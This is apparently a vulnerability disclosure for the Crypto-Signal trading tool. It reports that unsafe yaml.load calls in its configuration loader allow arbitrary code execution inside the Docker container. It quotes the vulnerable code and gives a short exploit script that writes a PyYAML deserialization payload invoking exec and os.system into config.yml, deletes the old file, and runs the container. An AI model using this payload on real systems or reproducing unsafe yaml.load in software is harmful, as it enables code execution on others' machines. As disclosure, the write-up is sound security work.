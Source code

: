 # Description
Crypto Signals is a command line tool that automates your crypto currency Technical Analysis (TA). It is maintained by a community of traders, engineers, data scientists, PMs, & countless generous individuals who wish to democratize the equal & open access to the greatest wealth re-distribution experiment in human and monetary policy history - Bitcoin
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution. Here this vulnerability forces to execute Code inside the docker container which runs the tool Crypto-Signal.
# Proof of Concept
* Vulnerable code part 
```python
with open('defaults.yml', 'r') as config_file:
            default_config = yaml.load(config_file)
if os.path.isfile('config.yml'):
    with open('config.yml', 'r') as config_file:
        user_config = yaml.load(config_file)
#https://github.com/CryptoSignal/Crypto-Signal/blob/master/app/conf.py#L21
```
1. run exploit.py
```python
# exploit.py
import os
#PAYLOAD SECTION
exploit = """settings: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('echo pwned')"
"""
os.system('rm -r config.yml')
open('config.yml','w+').write(exploit)
os.system('docker run --rm -v $PWD/config.yml:/app/config.yml shadowreaver/crypto-signal:master')
```

![]()
